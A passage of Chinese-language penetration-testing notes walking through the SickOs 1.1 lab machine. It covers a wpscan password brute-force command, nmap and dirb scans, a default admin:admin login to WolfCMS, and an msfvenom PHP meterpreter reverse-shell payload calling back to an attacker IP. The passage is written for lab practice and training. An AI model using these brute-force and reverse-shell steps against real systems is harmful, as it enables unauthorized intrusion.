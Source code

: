     `wpscan –url （网站链接） –wordlist 密码文件 –username 用户名`对指定用户的密码进行爆破


# 十：SickOs 1.1

## 流程

* 描述

    Get /root/a0216ea4d51874464078c618298b1367.txt

* 主机发现

    ```php

    arp-scan -l

    # 192.168.43.239

    ```

* 服务发现

    ```php

    nmap -sV 192.168.43.239
    nmap -sV -A 192.168.43.239

    PORT     STATE  SERVICE    VERSION
    22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
    3128/tcp open   http-proxy Squid http proxy 3.1.19
    8080/tcp closed http-proxy
    MAC Address: 00:0C:29:5F:63:F8 (VMware)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    
    发现三个端口，22 ssh服务，3128开了一个squid代理，8080端口关着

    要给浏览器加一个192.168.43.239:3128的代理，通过代理访问它的80服务

    dirb http://192.168.43.239 -p htp://192.168.43.239:3128

    dirsearch同理
    ```

    目录扫到`/robots.txt`里面有`/wolfcms`

* 漏洞利用

    ```php

    wolfcms默认后台路径为/wolfcms/?/admin

    admin:admin弱口令登录

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.8 LPORT=9594 > shell.php

    上传反弹shell文件，访问文件位置/wolfcms/public/yes.php
